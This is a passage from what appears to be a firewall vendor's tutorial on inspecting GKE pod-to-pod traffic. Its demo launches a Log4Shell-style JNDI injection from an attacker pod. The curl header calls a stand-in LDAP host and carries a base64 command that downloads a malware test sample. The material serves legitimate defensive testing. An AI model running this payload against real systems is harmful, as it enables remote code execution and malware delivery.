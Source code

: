 <br>


### GKE Inspection

Pod-to-pod traffic within a cluster can also be inspected by the firewalls using NSI.  To do this, the GKE cluster must have  [intranode visibility](https://cloud.google.com/kubernetes-engine/docs/how-to/intranode-visibility) enabled.  This feature ensures traffic between pods on the same GKE node can be inspected by the firewalls.

> [!CAUTION]
> Do not apply the demo.yaml in *any* real environment.

1. In Cloud Shell, authenticate to the GKE cluster (`cluster1`).  

    ```
    gcloud container clusters get-credentials cluster1 --zone $ZONE
    ```

2. Deploy a `victim` and `attacker` pod.

    ```
    kubectl apply -f https://raw.githubusercontent.com/PaloAltoNetworks/google-cloud-nsi-tutorial/main/consumer/yaml/demo.yaml
    ```

3. Create and output two environment variables containing the IPs of the `victim` and `attacker` pods.

    ```
    export VICTIM_IP=$(kubectl get pod victim --template '{{.status.podIP}}')
    export ATTACK_IP=$(kubectl get pod attacker --template '{{.status.podIP}}')
    sleep 3
    echo ""
    echo VICTIM IP: $VICTIM_IP
    echo ATTACK IP: $ATTACK_IP
    ```
    > Record the pod IP addresses to reference later.

4. Attempt to exploit the vulnerability on the `victim` pod.

    ```
    kubectl exec -it attacker -- curl $VICTIM_IP:8080 -H 'X-Api-Version: ${jndi:ldap://attacker-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}' --max-time 2
    ```

    (output)

    <pre><b>curl: (28) Operation timed out after 2000 milliseconds with 0 bytes received</b></pre>

    > The `time out` response indicates the producer blocked the connection. 
    > The *out-of-band* deployment produces a `Hello, World!` output since it is only monitoring the traffic for threats.


6. Delete the `victim` and `attacker` pods.
